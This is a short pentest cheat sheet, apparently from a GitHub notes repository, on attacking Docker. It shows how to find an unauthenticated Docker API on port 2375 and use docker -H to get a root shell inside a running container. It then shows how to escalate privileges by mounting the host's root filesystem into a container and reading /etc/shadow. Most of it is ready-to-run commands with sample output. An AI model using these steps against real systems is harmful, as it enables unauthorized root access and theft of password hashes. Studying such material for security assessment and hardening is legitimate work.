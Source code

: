 Docker
======

## API
The docker API expose the port `2375`. This API can be used to interact with the docker engine which basically give ou the right to do anything you desire unauthenticated.

To confirm that the host is running Docker you can make a GET requests to `/version` :

```http
http://<host>:<port>/version

{"Platform": {"Name": ""}, "Components": [{"Name": "Engine", "Version": "18.06.1-ce", "Details": {"ApiVersion": "1.38", "Arch": "amd64", "BuildTime": "2018-10-26T23:39:57.000000000+00:00", "Experimental": "false", "GitCommit": "e68fc7a/18.06.1-ce", "GoVersion": "go1.10.3", "KernelVersion": "4.14.47-64.38.amzn2.x86_64", "MinAPIVersion": "1.12", "Os": "linux"}}], "Version": "18.06.1-ce", "ApiVersion": "1.38", "MinAPIVersion": "1.12", "GitCommit": "e68fc7a/18.06.1-ce", "GoVersion": "go1.10.3", "Os": "linux", "Arch": "amd64", "KernelVersion": "4.14.47-64.38.amzn2.x86_64", "BuildTime": "2018-10-26T23:39:57.000000000+00:00"}
```

Then, using the CLI you can execute commands, for instance:
```bash
$ docker -H <host>:<port> ps

CONTAINER ID        IMAGE               COMMAND             CREATED             STATUS              PORTS               NAMES
be2dd8aa8222        ubuntu:14.04        "bash"              5 years ago         Up 2 seconds                            silly_elion

$ docker -H <host>:<port> exec -it <container_name> /bin/bash
root@abc:/# whoami
root
```

## Privilege Escalation

If the current user belong to the `docker` group then he can start a container
with a binding to files own by root and read them:

```bash
docker run --it --rm -v /:/mnt alpine:latest /mnt sh
```

Inside the container shell he can read all the files as root:

```bash
cat /etc/shadow
```
